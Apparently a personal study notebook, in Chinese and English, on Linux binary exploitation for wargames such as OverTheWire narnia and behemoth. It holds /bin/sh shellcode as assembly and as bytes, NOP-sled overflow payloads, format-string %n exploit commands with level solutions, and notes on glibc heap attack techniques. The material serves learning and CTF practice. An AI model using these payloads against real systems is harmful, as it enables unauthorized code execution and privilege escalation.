

# Quick reference

- [All architecture linux syscall table](https://chromium.googlesource.com/chromiumos/docs/+/HEAD/constants/syscalls.md#x86-32_bit)

- [i386 & x86-64 syscall/userspace call conventions](https://stackoverflow.com/questions/2535989/what-are-the-calling-conventions-for-unix-linux-system-calls-and-user-space-f)


## ## GDB usages (pwndbg)

dq &malloc-6 8     (dump 8 quadword, from malloc-6)

u malloc                 (dump assembly instructions from the start of malloc)

p malloc                 (print, 并尝试解析)

 

### Byte ordering


## 16进制hex里面每个字符(0->f)都代表4个bit

32位有8个hex decimal (4*8=32bits)
64位有16个hex decimal (4*16=64bits)

# shellcode

### compile

```
gcc -m32 -g -mpreferred-stack-boundary=2 -fno-stack-protector -Wl,-z,norelro -z execstack example.c -o example

-no-pie: disable PIE (position independent executable)
-z execstack: to disable NX (making stack executable)
-Wl,-z,norelro: disable RELRO (readonly relocations)
-fno-stack-protector: remove stack protection (stack overflow security checks)
And for convenience:

-g: add debugging

-mpreferred-stack-bounary=2: align stack on 4-byte boundary

---


nasm -f elf32 example.asm -o example.o

ld -m elf_i386 example.o

as --32 example.s -o example.o
```

- execstack: allow ....

### call from c

```
int (*foo)() = (int(*)())code;
  foo_value = foo();

OR
just
(*(void(*)()) shellcode)();
```

```assembly
// nasm 
global _start

section .text
_start:
    jmp short call_shellcode

shellcode:
    pop ebx                    ; address of '/bin/sh'
    xor eax,eax
    mov al, 11                 ; 0xb
    int 0x80

call_shellcode:
    call shellcode
    message db "/bin/sh"       ; no need to add \0 manually


nasm -f elf32 example.asm -o example.o

ld -m elf_i386 example.o

./a.out
```

```assembly
example2.asm (nasm) 25 bytes


global _start

section .text

_start:
    jmp getString

shell:
    xor eax, eax
    pop ebx
    xor ecx, ecx
    xor edx, edx
    mov al, 0xb
    int 0x80

getString:
    call shell
    db "/bin/sh"

\xeb\x0b\x31\xc0\x5b\x31\xc9\x31\xd2\xb0\x0b\xcd\x80\xe8\xf0\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68
```

# Redirect execution techniques

### 1.Overwrite EIP

### 2.Overwrite function stub address in GOT

# 'sneaking in shellcode' Techniques

### 1.set shellcode at an environment variable

- then use the above two techniques to point to the environ

### 2.store in input buffer

### 3.store in parameter(above main's EBP)

## x86 Instructions

The instruction ['test'](https://stackoverflow.com/a/13064985)

## NOP(No operation performed)

```
\x90
a sled，雪橇，EIP跟着NOP往前（高地址）滑，可以当作shellcode前面的填充物。
```

## GDB

```
x/wx 。。。 记得加个w代表word，32位，不然的话会打印nibbles
```

## print shellcode bytes

```
Example
$(python -c 'print "\x90"*107 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80" + "B"*4')

$(echo -n -e "\x31\xc0\x50\x68\x2f") 
$(echo -n -e "\x31\xc0\x50\x68\x2f") > inputFile  把inputFile里现有的内容删掉然后写入
$(echo -n -e "\x31\xc0\x50\x68\x2f") >> inputFile 在已有内容的后面添加
```

### 容易踩的陷阱

[link](https://stackoverflow.com/questions/38416045/im-trying-to-exploit-a-bufferoverflow-am-i-doing-something-wrong)

```
./vulne $(python -c 'print "\x90"*(256+4-25-40) + "\xeb\x0b\x31\xc0\x5b\x31\xc9\x31\xd2\xb0\x0b\xcd\x80\xe8\xf0\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68"+"\x90"*40 + "\x10\xd3\xff\xff"')
```

> 重点重点重点！！！！！ 注意看shellcode是在NOP sled的中间，而不是在最后

## Stack Alignment

- GCC aligned default 16 bytes 
- 一旦local var >= 17，gcc就会分配32bytes

# setuid

- some binaries have the setuid bit switched on, call them setuid executables. can see with ls -l

- a setuid executable allows the user that runs the executable to have his effective uid changed to the owner of the executable.

- temporary privilege escalation.

- /bin 里面的binary都是setuid executable，他们的owner是root，一般用户能够执行但不能修改。/bin 里的binary之所以需要root权限是因为他们需要用一些只有root能用的syscall。

[Real UID and effective UID](https://stackoverflow.com/questions/32455684/difference-between-real-user-id-effective-user-id-and-saved-user-id) 

# trivia

- 有时候不知为啥要加;cat ```(python -c 'print 71 * "\x90" + "\x80\xde\xff\xff"';cat) | ./behemoth1```

## Vulnerability lists

- [Format string vulnerability](https://web.ecs.syr.edu/~wedu/Teaching/cis643/LectureNotes_New/Format_String.pdf)
- 

### Format string vulnerability

针对printf家族的函数

```
如果str来源不安全,
printf(str); 就能被攻击。
```

所以要满足以下条件

1. printf(str); 后续va_arg 参数不对
2. 攻击者能够操控str
3. 在str里放入%x,%s,%n等 specifiers

在printf那一行下一个断点，这一刻的stack：



#### overthewire-narnia5

```
/narnia/narnia5 $(python -c 'print "\xd0\xd6\xff\xff"+"A"*496+"%n"')
Change i's value from 1 -> 500. No way...let me give you a hint!
buffer : [????AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA] (63)
i = 1 (0xffffd4d0)
```

程序有提示i的地址，有时候不知为啥会变一点

solution:

```
/narnia/narnia5 $(python -c 'print "\xd0\xd6\xff\xff"+"A"*496+"%n"')
```

前四个byte \xd0\xd6\xff\xff 是main里整数变量i little endian版的地址，目标是把i的值从1改到500，由于已经有四个byte了，加496就是500，所以加一堆‘A'来凑数，最后%n是specifier，它的功能是把format string里%n之前的字符串长度写到一个int *地址里，正常使用是：

```
int x = 0;
printf("123%n", &x);
```

x就变成了3（“123”的长度）
利用这个specifier来写入进程里任意内存地址

### format string vulnerability - 继续～

[详细解释](https://cand-f18.unexploitable.systems/l/lab06/W6L2.pdf)

[实例best](https://axcheron.github.io/exploit-101-format-strings/)

[100%全面，但比较长](https://cs155.stanford.edu/papers/formatstring-1.2.pdf)

- 进程内地址任意读写为任意值
- 如果要写入的值太大就得分开两次写，其中有两种写的方法，第一种在"详细解释"里，第二种在“实例best”里，第二种比较好。第二种用到%hn,而第一种方法会不可避免往目标后的4字节写入垃圾。

#### narnia 7

```assembly
在call snprintf下一指令处下一个断点，

run $(python -c 'print "AAAA"')
Starting program: /narnia/narnia7 $(python -c 'print "AAAA"')
goodfunction() = 0x80486ff
hackedfunction() = 0x8048724

before : ptrf() = 0x80486ff (0xffffd618)
I guess you want to come to the hackedfunction...

Breakpoint 1, 0x080486b2 in vuln ()
(gdb) x/20wx $esp
0xffffd60c:    0xffffd61c    0x00000080    0xffffd889    0x080486ff
0xffffd61c:    0x41414141    0x00000000    0x00000000    0x00000000
0xffffd62c:    0x00000000    0x00000000    0x00000000    0x00000000
0xffffd63c:    0x00000000    0x00000000    0x00000000    0x00000000
0xffffd64c:    0x00000000    0x00000000    0x00000000    0x00000000
```

由于x86通过压栈传参，esp后边三个0x00000080    0xffffd889    0x080486ff是snprintf的三个参数

如果snprintf以为自己还有第四个参数第五个等等，它会从0x080486ff的位置拿。我想要它拿我自定的数据，而我可控制的buffer从0x41414141那里开始，他们中间相距一个word(0x080486ff)，那么就叫他跳过这个word(%x)，读下一个word。

```
run $(python -c 'print "\xf8\xd5\xff\xff\xfa\xd5\xff\xff"+"%34588x%2$n%32992x%3$n"')
...
...
goodfunction() = 0x80486ff
hackedfunction() = 0x8048724

before : ptrf() = 0x80486ff (0xffffd5f8)
I guess you want to come to the hackedfunction...
```

注意看argv[1]的开头，\xf8\xd5\xff\xff\xfa\xd5\xff\xff 是要修改的目标地址(ptrf)的little endian版。后面的请看上面链接。

# heap

## Malloc internals

它是一个堆管理器，实现绝大部分堆操作。因为context switch的开销很大，频繁系统调用会严重影响性能。所以把这个任务交给用户态的ptmalloc2，是内核和程序之间的中间商。向内核批发进货，向程序零售分配。

[nb <CTF wiki>](https://ctf-wiki.org/pwn/linux/glibc-heap/heap_structure/#bin)

[glic mallocinternals wiki](https://sourceware.org/glibc/wiki/MallocInternals)

[orange blog post amazing](https://sensepost.com/blog/heap/)

[how2heap github,有资源列表](https://github.com/shellphish/how2heap)

[最棒讲解，加radare2使用指南](https://hackliza.gal/en/posts/r2heap/)

1. ###### malloc_chunk
   
   - 每个内存chunk的header
     
     ```c
     # define INTERNAL_SIZE_T size_t // size_t is 8 bytes on 64-bit cpu
     
     struct malloc_chunk {
     
       INTERNAL_SIZE_T      mchunk_prev_size;  /* Size of previous chunk (if free).  */
       INTERNAL_SIZE_T      mchunk_size;       /* Size in bytes, including overhead. */
     
       struct malloc_chunk* fd;         /* double links -- used only if free. */
       struct malloc_chunk* bk;
     
       /* Only used for large blocks: pointer to next larger size.  */
       struct malloc_chunk* fd_nextsize; /* double links -- used only if free. */
       struct malloc_chunk* bk_nextsize;
     };
     typedef struct malloc_chunk* mchunkptr;
     ```

2. ###### bin
   
   - malloc_chunk *
   - 每个bin是一个包含可用chunk的链表, singlely linked, non-circular
   - 一共有128个普通bin, 
### Fastbins

- 7个fastbin(by default), from 0x20 to 0x80
- fastbin里的chunk inuse bit没有被关掉，仍显示inuse，这样就不会被自动与相邻的free chunk合并，因为开销不值得.
- fastbin 类似一个栈，LIFO(last in first out)
- malloc 在从top chunk切割分配之前，会先看看fast bin有没有合适的，有的话直接拿来用.

### Unsorted bins

for chunks 0x90 <= size <= ...

3. ###### malloc_state/arena
   
   - 一个malloc_state记录一个arena里堆的具体情况
   - 每个arena都有一个malloc_state
   - main arena单独一个malloc_state，所有其他thread arenas的malloc_state是一个链表。
   - main arena's malloc_state is a global var, not part of the heap segment.
   - in-use chunks are not tracked by the arena, only free chunks are tracked.

An Allocated chunk

```
 +-+-+-+-+-+-+-+-+-+-+-+-+ <-- Chunk start
 | PREV_SIZE OR USER DATA| (1)
 +-----------------+-+-+-+
 | CHUNK SIZE      |A|M|P| (2) (3)
 +-----------------+-+-+-+ 
 |        USER DATA      | (4)
 |                       |
 | -  -  -  -  -  -  -  -| <-- End of chunk. Next chunk start (5)
 | PREV_SIZE OR USER DATA| (6)
 +-----------------------+
```

A free chunk （except for fastbins）

```
 +-+-+-+-+-+-+-+-+-+-+-+-+ <-- Chunk start
 | PREV_SIZE OR USER DATA|
 +-----------------+-+-+-+
 | CHUNK SIZE      |A|M|P|
 +-----------------+-+-+-+ 
 |  FORWARD POINTER(FD)  | (1)
 |   BACK POINTER(BK)    | (2)
 | -  -  -  -  -  -  -  -| <-- End of this chunk. Next chunk start.
 | PREV_SIZE OR USER DATA | (3)
 +-----------------------+
```

a call to malloc returns address pointing to the FD of a free chunk, which is used to store user data, as shown in first diagram. 

- fd_nextsize and bk_nextsize are used by large bins, point to the next(larger)/previous(smaller) size bin

```
   allocated           free               free
                                       (large bin)
 .-----------.     .-----------.     .-------------.
 | prev_size |     | prev_size |     | prev_size   |
 | size      |     | size      |     | size        |
 | userdata  |     | fd        |     | fd          |
 | userdata  |     | bk        |     | bk          |
 | userdata  |     | userdata  |     | fd_nextsize |
 | userdata  |     | userdata  |     | bk_nextsize |
 | userdata  |     | userdata  |     | userdata    |
 | userdata  |     | userdata  |     | userdata    |
 '-----------'     '-----------'     '-------------'
```

malloc(至少是gnu，64位) 最小分配单位是0x10, or 32 bytes. 前8byte 是chunk 的metadata。后24字节是user data.


## Exploitation techniques

- 可以用 ```__malloc_hook``` 或者 ```__free_hook```等来改变控制流。

### house of force

use buffer overflow to write to top chunk's size field, fool Malloc into believing it owns vm range beyond it actually owns。然后再malloc一次来达到任意读写的目的。

### fastbin duplication

基本上都会涵盖:

- double free 

- 伪造free chunk

  - 伪造free chunk可以用pwndbg command 'find_fake_fast [target data addr] [fast bin size]' to find suitable chunk that also overlaps the target data. 需要运气够好才行咯。malloc不检查地址对齐，但是会检查size field.
  - 在main_arena里伪造，因为有七个fast bin可以操控，操作空间也大些，但需要多次使用double free咯。

  

### One gadget 

gadget指libc里有些相当于```execl("/bin/sh" ... )``` 的代码段，把控制流指向一个gadget就可以获得shell了。

问题是每个gadget都有某些特定的限制，比如栈的某几个位置必须等于零，或者某些个参数寄存器必须等于0。因为这些值是execl的参数，也就是送给dash的参数，而dash很挑剔的，一旦参数不对就马上报错。

sh，bash 其实是调用dash。


### Unsafe unlink

- requires heap overflow bug in user program, and 
- for scenarios where u can edit the chunk after allocation
- when #allocation is limited, otherwise we can just use house of force lol..

free一个chunk的时候，Malloc会检查前后chunk是否空闲（先检查前一个，再检查后一个）（用prev in-use位判断），是的话就consolidate起来。紧邻的空闲chunk就叫做consolidation candidate（意 符合条件）。合并之前首先要把candidate从它的bin list 给移除（unlink）

A normal unlinking process （把正在free的称作 chunk 'X'，consolidation candidate 称作 Y） - 

。。。

- gives a reflected write primitive, which requires two memory addresses (one of which is a hook) to be flagged as writable. 

### Safe unlink

- 主要目的就是bypass掉unlink过程中的fd和bk校验
- requires a pointer to the allocated chunk. e.g could be a variable saved by the user program in the heap. 
